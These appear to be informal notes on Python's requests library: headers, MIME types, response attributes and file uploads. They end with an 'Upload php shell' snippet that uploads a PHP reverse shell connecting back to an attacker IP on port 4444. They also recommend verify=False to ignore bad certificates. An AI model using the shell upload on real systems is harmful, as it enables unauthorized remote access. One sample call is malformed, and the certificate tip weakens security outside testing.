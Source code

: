 
-----------------------
PYTHON3 HTTP requests
-----------------------
pip install requests 

NEVER name FILE as requests.py 

IGNORE WRONG CERTIFICATE:

requests.get(URL,verify=False)

Supress warnings: 

from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

Test it here httpbin.org 

### MIME type = media type -
MIME is Multipurpose Internet Mail Extension 

What is the correct MIME type FOR JSON ??

you're sending JSON to the server or receiving JSON from the server, you should always declare the 

CONTENT-TYPE OF THE HEADER AS APPLICATION/JSON , but older format would be 'text/plain'.

SO IF SENDING CORRECT JSON FORMAT: -H 'Content-Type: application/json' 

BUT IF YOU EXPECT JSON on output: YOU GO FOR: 

curl -H "Accept: application/json"

"The Accept request-header field can be used to specify certain media types which are acceptable for the response."

import requests 

r = requests.get(URL,params={dictionary},data=data,auth(),timeout=3,params=params,)

r -> OBJECT 

r.ok - generalised as OK response - return TRUE for any code less than 400

r.raw

r.text -> content in unicode 

r.content -> in bytes 

r.status_code 

r.json() - beware - this is METHOD not a value 

r.headers 

r.is_redirect

r.is_permanent_redirect

Upload file:
--------------

files = {'upload_file': open('file.txt','rb')}

r = requests.post(url, files=files)  
  
Upload php shell:

session.post(target+'/import', files={'file': ('shell.php6', f'<?php
$s=fsockopen("{attacker_ip}",4444);$p=proc_open("/bin/sh - i"
,array(0=>$s,1=>$s,2=>$s),$pipes); ?>')})
